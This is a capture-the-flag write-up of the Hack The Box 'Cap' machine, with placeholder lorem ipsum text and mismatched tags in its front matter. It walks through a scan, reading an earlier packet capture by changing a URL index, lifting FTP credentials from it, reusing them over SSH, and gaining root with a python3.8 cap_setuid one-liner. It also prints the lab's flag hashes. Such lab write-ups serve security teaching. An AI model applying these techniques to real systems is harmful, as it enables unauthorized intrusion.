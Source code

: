 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-06-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-cap/cap_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-cap/cap_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/cap]# nmap -Pn -n -sCV --open 10.10.10.245
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
  |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
  |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
  80/tcp open  http    gunicorn
  | fingerprint-strings:
  |   FourOhFourRequest:
  |     HTTP/1.0 404 NOT FOUND
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:58 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 232
  |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
  |     <title>404 Not Found</title>
  |     <h1>Not Found</h1>
  |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
  |   GetRequest:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Content-Length: 19386
  |     <!DOCTYPE html>
  |     <html class="no-js" lang="en">
  |     <head>
  |     <meta charset="utf-8">
  |     <meta http-equiv="x-ua-compatible" content="ie=edge">
  |     <title>Security Dashboard</title>
  |     <meta name="viewport" content="width=device-width, initial-scale=1">
  |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
  |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
  |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
  |     <link rel="stylesheet" href="/static/css/themify-icons.css">
  |     <link rel="stylesheet" href="/static/css/metisMenu.css">
  |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
  |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
  |     <!-- amchar
  |   HTTPOptions:
  |     HTTP/1.0 200 OK
  |     Server: gunicorn
  |     Date: Fri, 18 Jun 2021 07:14:52 GMT
  |     Connection: close
  |     Content-Type: text/html; charset=utf-8
  |     Allow: OPTIONS, GET, HEAD
  |     Content-Length: 0
  |   RTSPRequest:
  |     HTTP/1.1 400 Bad Request
  |     Connection: close
  |     Content-Type: text/html
  |     Content-Length: 196
  |     <html>
  |     <head>
  |     <title>Bad Request</title>
  |     </head>
  |     <body>
  |     <h1><p>Bad Request</p></h1>
  |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
  |     </body>
  |_    </html>
  |_http-server-header: gunicorn
  |_http-title: Security Dashboard


DIRB
+ http://10.10.10.245/data (CODE:302|SIZE:208)
+ http://10.10.10.245/ip (CODE:200|SIZE:17451)
+ http://10.10.10.245/netstat (CODE:200|SIZE:30019)

NIKTO
+ Allowed HTTP Methods: OPTIONS, GET, HEAD

User - Nathan


1. Visiting the HTTP we instantly see user 'Nathan', and a few IP functions - netstat, ifconfig and a capture counter. The capture
have all it's values to 0, and whatever we do towards the host they don't move.

Looking at the url, http://10.10.10.245/data/1, we can change the value '1' to '0' in hope to find a earlier batch of data.
This work and we can see that the counters are now 72,69,69,0. Download the .pcap file and go through it in Wireshark.


2. Once opened the .pcap we can quickly see requests and responses regarding user Nathan. Right click, Follow > TCP Stream and we
get this output:

  220 (vsFTPd 3.0.3)
  USER nathan
  331 Please specify the password.
  PASS Buck3tH4TF0RM3!
  230 Login successful.
  SYST
  215 UNIX Type: L8
  PORT 192,168,196,1,212,140
  200 PORT command successful. Consider using PASV.
  LIST
  150 Here comes the directory listing.
  226 Directory send OK.
  PORT 192,168,196,1,212,141
  200 PORT command successful. Consider using PASV.
  LIST -al
  150 Here comes the directory listing.
  226 Directory send OK.
  TYPE I
  200 Switching to Binary mode.
  PORT 192,168,196,1,212,143
  200 PORT command successful. Consider using PASV.
  RETR notes.txt
  550 Failed to open file.
  QUIT
  221 Goodbye.

Sweet, we now have creds to vsFTP! Nathan:Buck3tH4TF0RM3!
Before digging deeper into vsFTP, I always tend to try the creds towards SSH incase that would give us a easy user.

  [root:/git/htb/cap]# ssh nathan@10.10.10.245                                                                                      (master✱)
  nathan@10.10.10.245's password: Buck3tH4TF0RM3!
    nathan@cap:~$ whoami
      nathan
    nathan@cap:~$ cat user.txt
      ae160eb3719c987efe6e0eebaf2a6574

Easy user, great!


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As usual, start with the easy 'sudo -l' to see if we can get easy root.

  nathan@cap:~$ sudo -l
    [sudo] password for nathan:
    Sorry, user nathan may not run sudo on cap.

No luck, after some manual enumeration I couldn't find anything obvious - so fire up linpeas.

  nathan@cap:/dev/shm$ ./linpeas.sh
    ..
    [+] Capabilities
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

Capabilities is new to me, something I've never heard about and fits the name of the box 'Cap'.
Reading about Capabilities we find:
  > Capabilities are useful when you want to restrict your own processes after performing privileged operations
  > (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious
  > commands or arguments which are then run as root.

  CAP_SETUID =            Allow changing of the UID (set UID of root in you process)
  CAP_NET_BIND_SERVICE =  Bind a socket to internet domain privileged ports
  CAP_NET_RAW =           Use RAW and PACKET sockets (sniff traffic)

With this knowledge, python3.8 has the capabilities to setuid to 0, giving us root access.
We can do this in a simple one-liner.

  nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
  root@cap:~# id && cat /root/root.txt
  uid=0(root) gid=1001(nathan) groups=1001(nathan)
  cd9a6e65fc62abbc53c91c6f7b803822


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Exploit Capabilities:
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#malicious-use
